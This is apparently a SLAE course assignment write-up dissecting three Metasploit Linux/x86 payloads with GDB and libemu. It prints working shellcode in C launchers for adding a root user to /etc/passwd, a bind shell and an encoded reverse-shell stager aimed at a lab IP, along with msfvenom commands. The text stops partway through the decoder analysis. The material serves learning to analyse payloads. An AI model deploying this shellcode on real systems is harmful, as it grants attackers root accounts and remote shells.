# Assignment #5 - Analyzing Metasploit Payloads 

**Exercise description:** Analyzing at least three shellcode samples generated using Metasploit for Linux/x86. Making use of GDB/Ndisasm/Libemu to dissect the functionality of the shellcodes analyzed.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_5/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

The three selected payloads for this exercise are the following:

1. linux/x86/adduser
2. linux/x86/shell_bind_tcp_random_port
3. linux/x86/shell/reverse_nonx_tcp

## linux/x86/adduser
The description of this payload states that it will create a new user with *UID 0*.

The basic options available for this payload are as follows:

````
Options for payload/linux/x86/adduser:
=========================


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create

Description:
  Create a new user with UID 0
````
``Basic options for linux/x86/adduser``

The following command will generate the shellcode on C format: **msfvenom -p linux/x86/adduser USER=SLAE1376 PASS=slaetube -f c**



``Shellcode generated for linux/x86/adduser``

This can be inserted in a *shellcode launcher* to debug the execution properly.

````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x26\x00\x00\x00\x53\x4c"
"\x41\x45\x31\x33\x37\x36\x3a\x41\x7a\x6c\x5a\x42\x31\x30\x4d"
"\x37\x39\x71\x44\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80"
"\x6a\x01\x58\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
````
``shellcode.c``

To compile the shellcode it is necessary to use the following bash script.

````
#!/bin/bash

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

### Debugging linux/x86/adduser

To disassemble the desired part of *shellcode.c*, launching the GDB debugger using *sudo* command and issuing **break *&code**. Then it is possible to run the file and get the disassembled code.

As a basis, the following *hook-stop* will be defined:

````
define hook-stop
print /x $eax
print /x $ebx
print /x $ecx
print /x $edx
x/4w $esp
disassemble $eip,+20
end
````
``Hook-stop defined for debugging linux/x86/adduser``

The code will start by trying to set the current process as member of the root group (0). The syscall for *SETGID* is *0x2E* or *46* on decimal.



``man setgid``

````
=> 0x0804a040 <+0>:	xor    ecx,ecx
   0x0804a042 <+2>:	mov    ebx,ecx
   0x0804a044 <+4>:	push   0x46
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	int    0x80
````
``Debugging SETGID syscall with GID set to 0 (root)``

If everything goes well, the *EAX* register will be set to *0* after the syscall.



``SETGID syscall executed correctly``

Then the application opens */etc/passwd* on *r+x* mode.

````
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373 ;"dwss"+
   0x0804a054 <+20>:	push   0x61702f2f ;"ap//"+
   0x0804a059 <+25>:	push   0x6374652f ;"cte/"
   ;/etc/passw is pushed to ESP
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
````
``Debugging open function for /etc/passwd file``



``EBX stores a pointer to the file to open, which is /etc/passwd``

If the syscall succeed, the *EAX* register will store the file descriptor associated to the file opened by this syscall.



``File descriptor obtained after successful open syscall``

After that, a call to a memory address is performed (*0x804a091*).

````
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a091 <code+81>
   0x0804a06b <+43>:	push   ebx
````
``Debugging call to write function on 0x804a091``

On this memory address the program will write a line on */etc/passwd* that will contain the username and password (encrypted) that was provided.

````
   0x0804a091 <code+81>:	pop    ecx
   0x0804a092 <code+82>:	mov    edx,DWORD PTR [ecx-0x4]
   0x0804a095 <code+85>:	push   0x4
   0x0804a097 <code+87>:	pop    eax
   0x0804a098 <code+88>:	int    0x80
   0x0804a09a <code+90>:	push   0x1
   0x0804a09c <code+92>:	pop    eax
   0x0804a09d <code+93>:	int    0x80
````
``Debugging write function to add the root user to /etc/passwd``



``Initial situation``



``Final situation before writing on /etc/passwd``

After the write *syscall* (*0x4*) is performed, the */etc/passwd* file will contain the user specified on the payload.



``Comparision of file content before and after the payload execution``

Then the shellcode will invoke the exit syscall to finish its execution.

````
=> 0x0804a09a <code+90>:	push   0x1
   0x0804a09c <code+92>:	pop    eax
   0x0804a09d <code+93>:	int    0x80
````
``Debugging exit syscall to finish the execution of the shellcode``



``Application exits``

## linux/x86/shell_bind_tcp_random_port
The description of this payload states that it will create a shell and bind it to a random port. Then, it will be necessary to discover the port through the use of a port scanner like [*NMAP*](https://nmap.org).

This payload does not allow any basic to be set.
````
Options for payload/linux/x86/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x86/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
````
``Basic options for linux/x86/shell_bind_tcp_random_port``

The following command will generate the shellcode on C format: **msfvenom -p linux/x86/shell_bind_tcp_random_port -f c -a x86 --platform Linux**



``Shellcode generated for linux/x86/shell_bind_tcp_random_port``

This can be inserted in a *shellcode launcher* to debug the execution properly.
````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80"
"\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80"
"\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
````
``shellcode.c``

To compile the shellcode it is necessary to use the following bash script.

````
#!/bin/bash

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Furthermore, it is possible to get an schema of payload's functionality by issuing:

````
msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw -o shell_bind_tcp_random_port.bin
sudo /opt/libemu/bin/sctest -Ss 10000 -vvv -G shellcode_shell_bind_tcp_random_port.dot < shell_bind_tcp_random_port.bin
dot shellcode_shell_bind_tcp_random_port.dot  -T png > shellcode_shell_bind_tcp_random_port.png
````
``Commands to generate a graphical schema of the payload``

This will create a graphical schema of the payload.



``Graphical view for payload linux/x86/shell_bind_tcp_random_port``

### Debugging linux/x86/shell_bind_tcp_random_port

To disassemble the desired part of *shellcode.c*, launching the GDB debugger using *sudo* command and issuing **break *&code**. Then it is possible to run the file and get the disassembled code.

As a basis, the following hook-stop will be defined:

````
define hook-stop
print /x $eax
print /x $ebx
print /x $ecx
print /x $edx
x/4w $esp
disassemble $eip,+20
end
````
``Hook-stop defined for debugging linux/x86/shell_bind_tcp_random_port``

First, the payload will create a socket for IP protocol.
````
   0x0804a040 <+0>:	xor    ebx,ebx
   0x0804a042 <+2>:	mul    ebx
   0x0804a044 <+4>:	mov    al,0x66     ;syscall socketcall
   0x0804a046 <+6>:	inc    ebx
   0x0804a047 <+7>:	push   edx         ;protocol = 0
   0x0804a048 <+8>:	push   ebx         ;type = SOCK_STREAM
   0x0804a049 <+9>:	push   0x2         ;domain = AF_INET
   0x0804a04b <+11>:	mov    ecx,esp     ;loads arguments
   0x0804a04d <+13>:	int    0x80        ;creates the socket
````
``Debugging socket creation``

After successful execution of this part, the *EAX* register will store the *file descriptor* id for the socket created.



``File descriptor retrieved after socketcall``

Then the payload will start listening for incoming connections. As no *bind()* operation was performed, the port on which the program will be listening on will be random.

````
   0x0804a04f <code+15>:	push   edx     ;sets backlog as 0
   0x0804a050 <code+16>:	push   eax     ;loads the file descriptor
   0x0804a051 <code+17>:	mov    ecx,esp ;loads the arguments defined for listen() action
   0x0804a053 <code+19>:	mov    al,0x66
   0x0804a055 <code+21>:	mov    bl,0x4  ;action to be taken by the socket is listen()
   0x0804a057 <code+23>:	int    0x80
````
``Debugging listening function``

While debugging, is a good idea to take a snapshot of current listening ports on the server, as it will help to identify the port number created by the payload.



``Ports on LISTEN state before payload execution``

After execution of this part of the code, there will be a new random port on LISTEN state associated to the *shellcode* process.



``Ports on LISTEN state after payload execution``

Then the shellcode will accept an incoming connection.
````
   0x0804a059 <code+25>:	mov    al,0x66
   0x0804a05b <code+27>:	inc    ebx      ;increments ebx to set the action of the socket to accept()
   0x0804a05c <code+28>:	int    0x80
````
``Debugging accept function``

While debugging, the application will stop until a connection is received.



``Program waiting for incoming connections``

After an incoming connection is accepted, the program will continue its execution.



``Attacker connecting to the bind shell``



``Shellcode execution continues``

Next step is redirection of STDIN, STDOUT and STDERR to a newly created socket. This is possible by using the *dup2()* function, which was already discussed on [Assignment 1 - Shellcode for a Bind TCP Shell](../../Assignment_1/Docs/Assignment_1.html)
````
   0x0804a05e <code+30>:	pop    ecx
   0x0804a05f <code+31>:	xchg   ebx,eax
   0x0804a060 <code+32>:	push   0x3f
   0x0804a062 <code+34>:	pop    eax
   0x0804a063 <code+35>:	int    0x80
   0x0804a065 <code+37>:	dec    ecx
   0x0804a066 <code+38>:	jns    0x804a060 <code+32>
````
``Debugging I/O redirection``

Finally, the shellcode will load a shell by using the *execve()* function.
````
   0x0804a068 <code+40>:	mov    al,0xb     ;configures eax for syscall - execve
   0x0804a06a <code+42>:	push   0x68732f2f ;loads 'hs//'
   0x0804a06f <code+47>:	push   0x6e69622f ;loads 'nib/'
   0x0804a074 <code+52>:	mov    ebx,esp    ;saves the pointer to '/bin//sh'
   0x0804a076 <code+54>:	inc    ecx        ;sets ecx as null, because before its value was 0xffffffff
   0x0804a077 <code+55>:	int    0x80       ;executes the syscall execve()
````
``Debugging shell execution``

It is important to note that, usually is necessary to push a *NULL* terminator before loading the program to be executed. However on this shellcode *ESP* will already contain a *NULL* terminator before the program name is loaded, so there is no need to load again a *NULL* character.



``NULL on ESP before pushing any data on ESP for execve function``



``Registers values after calling execve``

Now, if the attacker issues any command, a shell will execute the instructions.



``Attacker interacting with the bind shell``

## linux/x86/shell/reverse_nonx_tcp
The description of this payload states that it will create a reverse  shell using an staged execution.

The basic options available for this payload are as follows:
````
Options for payload/linux/x86/shell/reverse_nonx_tcp:
=========================


       Name: Linux Command Shell, Reverse TCP Stager
     Module: payload/linux/x86/shell/reverse_nonx_tcp
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 50
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Spawn a command shell (staged). Connect back to the attacker
````
``Basic options for linux/x86/shell/reverse_nonx_tcp``

The following command will generate the shellcode on C format: **msfvenom -p linux/x86/shell/reverse_nonx_tcp LHOST=10.0.2.15 LPORT=9999 --platform Linux -a x86 -f c -b '\x00'**. For this shellcode to work correctly it is necessary to use an encoder to avoid *NULL* bytes on the payload.



``Shellcode generated using x86/shikata_ga_nai encoder``

This can be inserted in a *shellcode launcher* to debug the execution properly.

````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xbe\x55\x64\x92\x92\xd9\xc2\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
"\x0d\x83\xe8\xfc\x31\x70\x10\x03\x70\x10\xb7\x91\xa3\x49\x64"
"\x19\x97\x07\x88\xf7\x71\x80\x05\xe6\xb3\xb0\x82\xb2\x23\xbb"
"\xac\x46\xbb\xdd\xc4\x61\xcc\x47\x47\xe7\x33\xed\x01\xaf\xe3"
"\xa3\x9a\xc6\xe5\x07\xe9\x59\xbe\x1e\x47\x55\xf1\x22\x6a\xe6"
"\x0e\xc5";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
````
``shellcode.c``

To compile the shellcode it is necessary to use the following bash script.

````
#!/bin/bash

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Furthermore, it is possible to get an schema of payload's functionality by issuing:

````
msfvenom -p linux/x86/shell/reverse_nonx_tcp LHOST=10.0.2.15 LPORT=9999 -b '\x00' --platform Linux -a x86 -f raw -o reverse_nonx_tcp.bin
sudo /opt/libemu/bin/sctest -Ss 10000 -vvv -G reverse_nonx_tcp.dot < reverse_nonx_tcp.bin
dot reverse_nonx_tcp.dot  -T png > reverse_nonx_tcp.png
````
``Commands to generate a graphical schema of the payload``

This will create a graphical schema of the payload.



``Graphical view for payload linux/x86/shell/reverse_nonx_tcp``

### Debugging linux/x86/shell/reverse_nonx_tcp

#### Stage 1
To disassemble the desired part of *shellcode.c* for stage 1, launching the GDB debugger using *sudo* command and issuing *break *&code*. Then it is possible to run the file and get the disassembled code.

As a basis, the following hook-stop could be defined:

````
define hook-stop
print /x $eax
print /x $ebx
print /x $ecx
print /x $edx
print /x $esi
x/4w $esp
disassemble $eip,+20
end
````
``Hook-stop defined for debugging linux/x86/shell/reverse_nonx_tcp``

---
##### Decoding shikata_ga_nai
As the code was encoded using *shikata_ga_nai* encoder, the shellcode will decodify the instructions. Although on this examination the decoding process will be studied, a more detailed study can be found [here](https://cs.gmu.edu/~xwangc/Publications/ISC2014-AttackCodeExtraction-final.pdf).

````
   0x0804a040 <+0>:	mov    esi,0x92926455
   0x0804a045 <+5>:	fld    st(2)
   0x0804a047 <+7>:	fnstenv [esp-0xc]
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	sub    ecx,ecx
   0x0804a04e <+14>:	mov    cl,0xd
   0x0804a050 <+16>:	sub    eax,0xfffffffc
   0x0804a053 <+19>:	xor    DWORD PTR [eax+0x10],esi
   0x0804a056 <+22>:	add    esi,DWORD PTR [eax+0x10]
   0x0804a059 <+25>:	mov    bh,0x91
   0x0804a05b <+27>:	mov    ds:0x97196449,eax
   0x0804a060 <+32>:	pop    es
   0x0804a061 <+33>:	mov    bh,dh
   0x0804a063 <+35>:	jno    0x8049fe5 <_DYNAMIC+189>
   0x0804a065 <+37>:	add    eax,0x82b0b3e6
   0x0804a06a <+42>:	mov    dl,0x23
   0x0804a06c <+44>:	mov    ebx,0xddbb46ac
   0x0804a071 <+49>:	les    esp,FWORD PTR [ecx-0x34]
   0x0804a074 <+52>:	inc    edi
   0x0804a075 <+53>:	inc    edi
   0x0804a076 <+54>:	out    0x33,eax
   0x0804a078 <+56>:	in     eax,dx
   0x0804a079 <+57>:	add    DWORD PTR [edi-0x39655c1d],ebp
   0x0804a07f <+63>:	in     eax,0x7
   0x0804a081 <+65>:	jmp    0x4f235edf
   0x0804a086 <+70>:	push   ebp
   0x0804a087 <+71>:	icebp  
   0x0804a088 <+72>:	and    ch,BYTE PTR [edx-0x1a]
   0x0804a08b <+75>:	push   cs
   0x0804a08c <+76>:	lds    eax,FWORD PTR [eax]
````
``shellcode at the beginning of the analysis``

First block of instructions will decode all the instructions by using a key and iterate through different memory addresses.

````
   0x0804a040 <+0>:	mov    esi,0x92926455           ;key=0x92926455
   0x0804a045 <+5>:	fld    st(2)                    ;loads FPU 2 on stack, could be any FPU related instruction
   0x0804a047 <+7>:	fnstenv [esp-0xc]               ;writes FPU records to put EIP on top of the stack
   0x0804a04b <+11>:	pop    eax                      ;EAX = EIP
   0x0804a04c <+12>:	sub    ecx,ecx                  ;cleans ECX
